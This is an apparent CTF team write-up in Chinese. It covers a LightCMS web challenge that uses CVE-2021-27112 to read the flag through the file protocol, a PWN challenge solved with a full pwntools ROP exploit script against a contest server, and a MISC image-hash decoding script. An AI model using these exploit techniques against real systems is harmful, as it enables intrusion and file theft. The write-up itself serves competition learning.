

队伍名称：戈戈哥哥不鸽鸽

<!-- more -->


大师傅们都去打xctf了，几个比赛重时间了，春秋，美团，das。

在几个比赛中疯狂衔接2333

---

## WEB

### 简单域渗透Ⅱ-1

拿到题Lightcms，直接打。目前网上两个洞，一个v跨站脚本漏洞，一个后台RCE漏洞[CVE-2021-27112](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-27112)

dozer/dozer123登陆后台



在`内容管理->文章->新建文章内容`处上传文件，抓包得到`/admin/neditor/serve/uploadimage`路由，然后在`/admin/neditor/serve/catchImage`路由读取文件，网上有很多RCE文章，不多阐述。`file_get_contents`直接用file协议读取根目录flag，后来flag被改名了，这里算是前期的做法了。


后面即使拿到了shell也没有进一步突破，扫ip还扫错了


---

### 未完成的网站

猜测点

`./people/{}`和`./download?url={}`

试了下发现过滤了`[]`

然后疯狂被域渗透折磨


---

## PWN

### PwnPwnPwn

Exp:

```python
"""
-*- coding: utf-8 -*-
@File: exp.py
@Author: gyy
@Time: 5.30, 2021
"""
from pwn import *
from LibcSearcher import *
import time, sys, base64
context.os = 'linux'
context.arch = 'amd64'
context.log_level = 'debug'
# p = process('./pwn')
p = remote('1.14.160.21',20001)
main_addr = 0x000000000401281
pop_rdi = 0x0000000000401313
pop_rsi_r15 = 0x0000000000401311
bin_addr = 0x000000000401199
sh_addr = 0x0000000004011F9
sys_addr = 0x000000000401176

payload = b'a'*0x78 + p64(pop_rdi) + p64(0xB16BAD) + p64(bin_addr)
payload += p64(pop_rdi) + p64(0xBADF00D) + p64(pop_rsi_r15) + p64(0xFEE1DEAD)*2
payload += p64(sh_addr) + p64(sys_addr)
p.sendline(payload)
# gdb.attach(p)
p.interactive()
```

`cat /flag`即可


---

## MISC

### 不会有人以为re那道才是签到吧


手比较快


---

### 做个问卷吧

非常简单


---

### funny_pixel

听说国赛有一个running_pixel?

那就类比一下，发现几张图片类似，看一下md5，发现一共只有6种md5。猜测是二进制，提出来前16章，二进制为

`01000100`==`d`

`01101111`==`o`

很明显思路正确，写脚本就行了

exp：

```python
"""
-*- coding: utf-8 -*-
@File: exp.py
@Author: gyy
@Time: 5月 30, 2021
"""
import hashlib
import os

path = "./"
files = os.listdir(path)


def get_file_md5(fname):
    m = hashlib.md5()   #创建md5对象
    with open(fname,'rb') as fobj:
        while True:
            data = fobj.read(4096)
            if not data:
                break
            m.update(data)  #更新md5对象

    return m.hexdigest()    #返回md5对象

def get_flag():
    list0 = ['5baa9d8a0912ddfbd29ac3786ef859f8','d63f8a4a7a1d6c8b8f04e7d73797edf8','6002507730ab969502579b66e9fda4b9']
    list1 = ['86f2fd64a8d1f6bfa0728be9e97a4a72','000b14c847091094ae2777614f16f4c6','4d8a4db35c3a27b36865750319f7cdfd']
    result = ""
    with open('result.txt','r') as f:
        text = f.read().split("\n")
        time = 0
        for i in text:
            if i in list0:
                result += "0"
            else:
                result += "1"
            time += 1
            if time%8 == 0:
                result += " "

    result = result.split(" ")
    print(result)
    res = ""
    for i in result:
        res += chr(int(i,2))
    print(res)


if __name__ == '__main__':
    result = {}
    res = []
    for pic_file in files:
        if ".png" not in pic_file:
            continue
        pic = get_file_md5(pic_file)
        result[int(pic_file.split(".png")[0])] = pic
    result = sorted(result.items(), key=lambda item: item[0])
    print(result)
    with open("result.txt", "w+") as f:
        for i in result:
            if i[1] not in res:
                res.append(i[1])
            f.write(i[1]+"\n")
    print("Done!")
    print(res)
    get_flag()
```


